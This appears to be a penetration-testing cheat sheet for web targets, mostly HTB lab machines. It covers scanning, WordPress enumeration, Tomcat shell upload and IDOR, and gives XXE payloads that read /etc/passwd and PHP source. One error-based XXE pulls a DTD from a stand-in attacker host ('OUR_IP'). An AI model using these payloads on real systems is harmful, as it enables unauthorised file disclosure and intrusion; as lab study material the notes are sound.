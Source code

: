 # Web 

## Scans

### nikto

![Pasted image 20220805160735](https://github.com/dbissell6/Shadow_Stone/assets/50979196/691cc2e9-20a5-4692-aa8f-5ff1b032b0f4)

### whatweb

![Pasted image 20220805160914](https://github.com/dbissell6/Shadow_Stone/assets/50979196/7a494fa9-737a-4f21-9cca-f0eab21d2e4c)


## Wordpress

```
wpscan --url http://pressed.htb
```
```
wpscan --url http://pressed.htb --enumerate ap -v
```
## Web Proxies

### Burp


### Zap

## Tomcat
common attack is uploading a .war to get a shell. This can be done with default tomcat creds or finding admin creds.

## XSS

## Insecure Direct Object References(IDOR)

Identifying IDORs: Look for URL parameters or APIs with object references (e.g., ?uid=1 or ?filename=file_1.pdf). These references are often found in URL parameters, APIs, or other HTTP headers like cookies.

## XML External Entity (XXE) Injection
The first step in identifying potential XXE vulnerabilities is finding web pages that accept an XML user input. 

### Local File Disclosure example

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/bb634f91-a68b-4701-bf77-34d899d82685)

```
<!DOCTYPE email [
  <!ENTITY new_ent SYSTEM "file:///etc/passwd">
]>
```
Define a new external entity
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/a7c89b0a-6319-4dd8-9c0e-74c5dd6a0b45)

### PHP wrappers
some files may contain characters that will break the request. Can use a PHP wrapper to base64 encode

```
<!DOCTYPE email [
  <!ENTITY new_ent SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

### Error Based XXE

Create xxe.dtd file and host it
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/8ff45e34-c8a4-4b1d-a109-8702d1d9f00b)

```
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/767e5ec0-9ae1-494e-8aa8-3c00af5900c6)


### RCE with XXE
If PHP expect module is enabled(not likley)

## HTTP Verb Tampering
A web server's authentication configuration may be limited to specific HTTP methods, which would leave some HTTP methods accessible without authentication. Exploiting HTTP Verb Tampering vulnerabilities is usually a relatively straightforward process. We just need to try alternate HTTP methods to see how they are handled by the web server and the web application. 

To show what options are available
```
curl -i -X OPTIONS http://SERVER_IP:PORT/
```
Can change request methods easily in burp by right clicking

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/ade0f33a-3cf7-42d0-a7bd-5c49b4a81970)


